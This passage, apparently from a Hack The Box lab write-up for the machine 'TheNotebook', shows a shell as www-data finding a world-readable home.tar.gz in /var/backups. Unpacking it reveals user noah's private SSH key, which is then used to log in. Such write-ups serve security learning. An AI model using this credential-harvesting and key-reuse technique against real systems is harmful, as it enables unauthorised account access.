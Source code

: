 Doing some manual enumeration, find a backup directory in /var that we can read
```bash
www-data@thenotebook:/var/backups$ ls -la
total 60
drwxr-xr-x  2 root root  4096 Jul  8 01:48 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
www-data@thenotebook:/var/backups$
```
home.tar.gz looks interesting

Unzip and untar it to see its a backup of the /home directory....complete with a .ssh directory for noah

There's no way the id_rsa still works with ssh right?
```bash
hunter@kali ~/htb/thenotebook/www/home/noah/.ssh$ ssh -i id_rsa noah@10.10.10.230
[snip]
noah@thenotebook:~$
```